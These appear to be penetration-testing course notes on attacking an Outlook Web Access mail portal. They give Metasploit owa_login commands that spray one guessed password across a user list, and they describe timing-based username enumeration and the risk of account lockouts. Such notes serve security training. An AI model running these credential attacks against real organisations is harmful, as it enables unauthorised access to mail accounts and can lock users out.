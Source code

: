**Outlook Web Access** is the on-premise **Exchange Mail server.** It is possible to pull quite a bit of information from the organization even if we don't fully break into it

![](https://pnpt.adot8.com/~gitbook/image?url=https%3A%2F%2F152155081-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FUczSr73L34emqNMDOxDg%252Fuploads%252FoXESMe4uZJoEQx2q7IxP%252Fimage.png%3Falt%3Dmedia%26token%3D96516e54-dc51-4b7a-811b-5e895f94b607&width=768&dpr=4&quality=100&sign=54744f4d&sv=2)

### Metasploit
```bash
use auxiliary/scanner/http/owa_login
set user_file users.txt
set password Winter24!
```

You might need to change the Auxiliary Action to the appropriate version
```bash
set action OWA_2016
```

If the account is valid the server will get back to you faster than if the account is invalid. Metasploit has a builtin detection mechanism for this and saves the valid user accounts
![[Pasted image 20250222153019.png]]

> [!NOTE] Note
> Metasploit won't stop if you continuously lock out accounts althought it will tell you if an account is locked out. Be sure to monitor it

Successful login
![[Pasted image 20250222153101.png]]
